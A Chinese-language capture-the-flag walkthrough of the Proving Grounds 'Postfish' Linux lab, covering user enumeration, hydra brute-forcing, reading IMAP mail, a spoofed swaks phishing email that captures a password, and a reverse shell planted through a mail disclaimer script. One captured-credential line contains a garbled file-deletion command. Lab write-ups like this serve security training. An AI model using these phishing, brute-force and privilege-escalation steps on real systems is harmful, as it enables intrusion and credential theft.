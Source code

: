 ```yaml
---
title: Proving Grounds Practice-Postfish
date: 2025-6-13 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```




# 信息收集

## nmap

![image-20250613143734775](./Postdish/image-20250613143734775.png)

# smtp

将网站上的一些任务写进文件，后面用来爆破是否存在

![image-20250613143806167](./Postdish/image-20250613143806167.png)

![image-20250613143746384](./Postdish/image-20250613143746384.png)

cewl工具会爬取网站上类似于用户名的字段

![image-20250613144505239](./Postdish/image-20250613144505239.png)

![image-20250613144455125](./Postdish/image-20250613144455125.png)

根据爆破出来的几个存在的用户名，生成一份用户名表和密码表（其中大小写都要包含），密码和用户名相同，然后使用hydra爆破几个开放的协议

# imap协议

爆破imap协议时存在正确的用户名

![image-20250613152136676](./Postdish/image-20250613152136676.png)

```
Sales:sales
```

通过telnet登录到imap查看其中的邮件

连接方法：https://ssorc.tw/3196/how-to-use-telnet-command-to-connect-to-imap/

![image-20250613154147411](./Postdish/image-20250613154147411.png)

伪造邮件让对方把邮件内容发给我们

```
swaks --to Brian.Moore@postfish.off --from it@postfish.off --server 192.168.168.137 --body "http://192.168.45.219/" --header "Subject:Please Reset Your Password via such link"  --suppress-data
```

![image-20250613172741485](./Postdish/image-20250613172741485.png)

```
first_name=Brian&last_name=Moore&email=brian.moore%postfish.off&username=brian.moore&password=EternaLSunshinE&confifind /var/mail/ -type f ! -name sales -delete_password=EternaLSunshinE      
```

得到密码之后ssh可以直接连接

# 提权

![image-20250613174225758](./Postdish/image-20250613174225758.png)

该文件是免责声明，当发送邮件时该文件被触发，所以我们修改文件之后在发送一次邮件就可以执行我想执行的代码

修改文件内容为反弹shell，可以得到filter的shell，该用户具有mail的sudo权限，可以提权

![image-20250613175451802](./Postdish/image-20250613175451802.png)

![image-20250613175501961](./Postdish/image-20250613175501961.png)